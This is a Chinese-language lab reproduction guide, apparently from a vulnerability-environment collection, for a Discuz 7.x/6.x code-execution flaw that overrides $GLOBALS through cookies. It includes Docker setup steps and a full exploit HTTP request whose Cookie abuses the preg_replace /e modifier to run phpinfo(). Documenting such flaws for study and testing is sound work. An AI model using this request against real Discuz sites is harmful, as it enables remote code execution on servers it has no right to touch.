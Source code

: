 # Discuz 7.x/6.x 全局变量防御绕过导致代码执行

由于php5.3.x版本里php.ini的设置里`request_order`默认值为GP，导致`$_REQUEST`中不再包含`$_COOKIE`，我们通过在Cookie中传入`$GLOBALS`来覆盖全局变量，造成代码执行漏洞。

具体原理请参考：

- https://www.secpulse.com/archives/2338.html

## 漏洞环境

执行如下命令启动Discuz 7.2：

```
docker-compose up -d
```

启动后，访问`http://your-ip:8080/install/`来安装discuz，数据库地址填写`db`，数据库名为`discuz`，数据库账号密码均为`root`。

![](1.png)

## 漏洞复现

安装成功后，直接找一个已存在的帖子，向其发送数据包，并在Cookie中增加`GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();`：

```
GET /viewthread.php?tid=10&extra=page%3D1 HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();
Connection: close


```

可见，phpinfo已成功执行：

![](2.png)

> 网上文章说需要一个带表情评论的帖子，实际测试发现并不需要，这块仍需阅读代码来解释原因。
